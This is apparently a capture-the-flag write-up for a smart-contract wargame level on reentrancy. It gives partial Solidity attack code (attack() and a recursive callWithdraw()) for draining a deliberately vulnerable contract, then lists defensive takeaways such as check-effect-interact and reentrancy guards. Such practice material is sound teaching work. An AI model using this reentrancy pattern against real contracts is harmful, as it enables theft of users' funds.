

# 10 Re-entrance

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

>Untrusted contracts can execute code where you least expect it.
>Fallback methods
>Throw/revert bubbling
>Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"

---
This level demonstrates how a reentrancy exploit can be used to siphon funds out of a contract. Here's a graphic from quantstamp that outlines a reentrancy.



**Solution:**
First we create an attacking contract that inherits the `Reentrance.sol` contract. We'll create this function: `attack()`

```-
function attack() external payable {
    require(msg.value >= 0.1 ether);

    initDeposit = msg.value;
    target.donate{value: initDeposit}(address(this)); 

    callWithdraw();
}
```
We'll seed it with some ether and then recursively call the `withdraw()` function

```-
function callWithdraw() private {
        //update remaining balance for each withdraw
        uint256 remainingBal = address(target).balance;
        //check if there are more tokens to steal
        bool continueRecursing = remainingBal > 0;

        if(continueRecursing) {
            //we're only allowed to withdraw at most our initial deposit
            uint256 withdrawAmt = 
                initDeposit < remainingBal
                    ? initDeposit
                    : remainingBal;
                target.withdraw(withdrawAmt);
        }   
    }
```
Checks are included to make sure that we don't withdraw more than the target contract contains. If we withdraw too much, our transaction will revert. 

Note: Had to change the format of `.call.value(_amount)("")` to `.call{value: _amount}("")` because the syntax changed from `^0.6.0` to `^0.8.0`

**Takeaways:**
    - Use Check > Effect > Interact pattern. The wrong order will allow for a reentrancy attack. 
    - Optionally, use a mutex (oz reentrancyguard) modifier. 